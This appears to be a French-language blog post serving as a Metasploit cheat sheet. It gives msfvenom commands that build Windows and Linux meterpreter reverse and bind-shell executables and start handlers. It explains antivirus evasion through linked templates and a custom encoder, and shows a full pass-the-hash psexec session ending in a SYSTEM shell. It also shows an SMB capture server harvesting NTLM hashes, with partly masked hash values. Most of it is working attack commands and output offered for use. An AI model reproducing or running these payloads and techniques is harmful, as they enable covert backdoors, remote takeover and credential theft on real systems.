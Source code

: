 ```yaml
---
layout: post
title: "Metasploit"
description: "Commandes utiles de l'outil Metasploit"
category: Tools
tags: [Tools, Shell, Linux, Hack]
---
```

{% include JB/setup %}

##Genération de payload exécutables##

###Manuel###

~~~~~~~
# msfvenom -h
Usage: /opt/framework/msf3/msfvenom [options]

Options:
    -p, --payload    [payload]       Payload to use. Specify a '-' or stdin to use custom payloads
    -l, --list       [module_type]   List a module type example: payloads, encoders, nops, all
    -n, --nopsled    [length]        Prepend a nopsled of [length] size on to the payload
    -f, --format     [format]        Format to output results in: raw, ruby, rb, perl, pl, bash, sh, c, js_be, js_le, java, dll, exe, exe-small, elf, macho, vba, vbs, loop-vbs, asp, war
    -e, --encoder    [encoder]       The encoder to use
    -a, --arch       [architecture]  The architecture to use
        --platform   [platform]      The platform of the payload
    -s, --space      [length]        The maximum size of the resulting payload
    -b, --bad-chars  [list]          The list of characters to avoid example: '\x00\xff'
    -i, --iterations [count]         The number of times to encode the payload
    -c, --add-code   [path]          Specify an additional win32 shellcode file to include
    -x, --template   [path]          Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -h, --help                       Show this message
~~~~~~~

###Exemple###

####Lister les options d'un payload####

~~~~~~~
# msfvenom -p windows/meterpreter/reverse_tcp -o
~~~~~~~

####Créer un payload meterpreter pour windows####

~~~~~~~
# msfvenom -p windows/meterpreter/reverse_tcp -f exe LHOST=$(ifdata -pa eth0) LPORT=5555 > windobReverseMeterpreter5555.exe
~~~~~~~

####Créer un payload meterpreter pour Linux####

~~~~~~~
# msfvenom -p linux/x86/meterpreter/bind_tcp -f elf LPORT=5555 > linuxMeterpreter5555.bin
~~~~~~~

###Alternative###

~~~~~~~
# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.1 X > met-reverse.exe
~~~~~~~


##Lancement de handler##

~~~~~~~
# msfcli multi/handler LPORT=5555 E
~~~~~~~


##Exploitation depuis msfconsole##

Cette méthode evite de charger deux fois le gros de metasploit.

~~~~~~~
use payload/windows/meterpreter/bind_tcp
set LPORT 8888
show options
generate -t exe -f /root/meterpreter6666.exe
back

use exploit/multi/handler
set PAYLOAD windows/meterpreter/bind_tcp
set RHOST 192.168.0.1
set LPORT 8888
exploit
~~~~~~~

## Contournement des antivirus##

Certains virus utilisent des sandboxes pour lancer les exécutables et vérifier leur dangerosité. (Mal)heureusement, ces sandboxes implémentent rarement les communication réseaux, pour des raisons de sécurités.

Il est donc possible de cacher un payload malveillant en vérifiant la possibilité d'effectuer une connexion réseau. En utilisant le template [ci-joint]({{ ASSET_PATH }}/ressources/Tools/metasploit/meterpreterTemplate1.zip) et l'encoder metasploit [ci-joint]({{ ASSET_PATH }}/ressources/Tools/metasploit/xorbyte.rb) à placer dans modules/encoders/x86/xorbyte.rb.

Pour une backdoor plus permanente, en bind tcp, il est possible d'utiliser le template [ci-joint]({{ ASSET_PATH }}/ressources/Tools/metasploit/meterpreterTemplate2.zip).


## PassTheHash en utilisant metasploit ##

Le module _exploit/windows/smb/psexec_ permet de réaliser de s'authentifier sur une machine Windows en PassTheHash et d'obtenir un shell meterpreter :

~~~~~~~
# msfconsole -q
msf > use exploit/windows/smb/psexec
msf  exploit(psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf  exploit(psexec) > set LHOST 10.42.42.42
LHOST => 10.42.42.42
msf  exploit(psexec) > set SMBPass aad3b435ffffffffffffffffff1404ee:253b4ffffffffffffffffffff6f31185
SMBPass => aad3b435bfffffffffffffffffff04ee:253b4a94bcfffffffffffffaf6f31185
msf  exploit(psexec) > set SMBUser Administrateur
SMBUser => Administrateur
msf  exploit(psexec) > set RHOST 10.42.42.238
RHOST => 10.42.42.238
msf  exploit(psexec) > exploit -z

[*] Started reverse handler on 10.42.42.42:4444
[*] Connecting to the server...
[*] Authenticating to 10.42.42.238:445|WORKGROUP as user 'Administrateur'...
[*] Uploading payload...
[*] Created \wHREjtTN.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.42.42.238[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.42.42.238[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (MLkScPls - "MVZHuslgOhCiQVBanShOvcO")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \wHREjtTN.exe...
[*] Sending stage (752128 bytes) to 10.42.42.238
[*] Meterpreter session 1 opened (10.42.42.42:4444 -> 10.42.42.238:58782) at 2012-04-27 10:42:16 +0200
[*] Session 1 created in the background.
msf  exploit(psexec) > sessions

Active sessions
===============

  Id  Type                   Information                  Connection
  --  ----                   -----------                  ----------
  1   meterpreter x86/win32  AUTORITE NT\SYSTEM @ C61112  10.42.42.42:4444 -> 10.42.42.238:58782 (10.42.42.238)

msf  exploit(psexec) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
~~~~~~~



## Récupération de challenges NTLM ##

### Exploitation de mauvaise configuration de client samba ###

Le module _auxiliary/server/capture/smb_ permet de simuler un serveur samba avec un niveau de sécurité faible afin de capturer les hashs des utilisateurs :

~~~~~~~
# msfconsole -q
msf  > use auxiliary/server/capture/smb
msf  auxiliary(smb) > set CAINPWFILE /tmp/smb_cain.txt
CAINPWFILE => /tmp/smb_cain.txt
msf  auxiliary(smb) > set JOHNPWFILE /tmp/smb_john.txt
JOHNPWFILE => /tmp/smb_john.txt
msf  auxiliary(smb) > info

       Name: Authentication Capture: SMB
     Module: auxiliary/server/capture/smb
    Version: 14976
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <hdm@metasploit.com>

Basic options:
  Name        Current Setting    Required  Description
  ----        ---------------    --------  -----------
  CAINPWFILE  /tmp/smb_cain.txt  no        The local filename to store the hashes in Cain&Abel format
  CHALLENGE   1122334455667788   yes       The 8 byte challenge
  JOHNPWFILE  /tmp/smb_john.txt  no        The prefix to the local filename to store the hashes in JOHN format
  SRVHOST     0.0.0.0            yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT     445                yes       The local port to listen on.
  SSL         false              no        Negotiate SSL for incoming connections
  SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
  SSLVersion  SSL3               no        Specify the version of SSL that should be used (accepted: SSL2, SSL3, TLS1)

Description:
  This module provides a SMB service that can be used to capture the
  challenge-response password hashes of SMB client systems. Responses
  sent by this service have by default the configurable challenge
  string (\x11\x22\x33\x44\x55\x66\x77\x88), allowing for easy
  cracking using Cain & Abel, L0phtcrack or John the ripper (with
  jumbo patch). To exploit this, the target system must try to
  authenticate to this module. The easiest way to force a SMB
  authentication attempt is by embedding a UNC path (\\SERVER\SHARE)
  into a web page or email message. When the victim views the web page
  or email, their system will automatically connect to the server
  specified in the UNC share (the IP address of the system running
  this module) and attempt to authenticate.

msf  auxiliary(smb) > run
[*] Auxiliary module execution completed

[*] Server started.
msf  auxiliary(smb) > [*] Empty hash captured from 10.67.4.224:1854 captured, ignoring ...
[*] 2012-05-03 17:56:45 +0200
NTLMv1 Response Captured from 10.67.4.224:1854
USER:My DOMAIN:FR OS:Windows 2002 Service Pack 3 2600 LM:Windows 2002 5.1
LMHASH:7a0ffffffffffffffffffffffffffffffffffffffffbc673
NTHASH:d4acfffffffffffffffffffffffffffffffffffffff88736

[*] Empty hash captured from 10.42.42.24:1864 captured, ignoring ...
[*] Empty hash captured from 10.42.42.24:1871 captured, ignoring ...
[*] Empty hash captured from 10.42.42.24:1873 captured, ignoring ...
[*] Empty hash captured from 10.42.42.24:1880 captured, ignoring ...
[*] Empty hash captured from 10.42.42.24:1887 captured, ignoring ...

msf  auxiliary(smb) >

testuser::FR:175c0e51065adfffffffffffffffffffffffffff78d268aa:175c0e51065adffffffffffffffffffffffff44078d268aa:1122334455667788
~~~~~~~


